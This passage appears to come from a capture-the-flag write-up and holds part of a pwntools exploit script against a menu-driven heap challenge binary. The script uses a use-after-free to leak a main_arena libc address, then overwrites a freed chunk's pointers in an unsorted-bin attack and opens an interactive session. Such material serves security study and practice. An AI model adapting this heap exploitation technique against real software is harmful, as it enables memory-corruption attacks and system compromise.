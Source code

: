 ```python
	p.sendline('2')
	p.recvuntil(':> ')
	p.sendline(str(idx))

def edit(idx, data):
	p.recvuntil(':> ')
	p.sendline('3')
	p.recvuntil(':> ')
	p.sendline(str(idx))
	p.recvuntil(':> ')
	p.sendline(data)
	
def view(idx):
	p.recvuntil(':> ')
	p.sendline('4')
	p.recvuntil(':> ')
	p.sendline(str(idx))


alloc('A' * 20)
alloc('B' * 20)
alloc('C' * 20)

free(1)

view(1)

p.recvuntil('-+')
p.recv(0x7c)

leak = u64(p.recv(6).ljust(8,'\x00'))
log.info('MAIN_ARENA+88 : ' + hex(leak))

payload = p64(leak) + p64(leak - 0x10)

edit(1, payload)

alloc('D' * 20)
p.recv()
p.sendline('1')
sleep(0.3)
p.sendline('256')

p.interactive()
```





## Misc
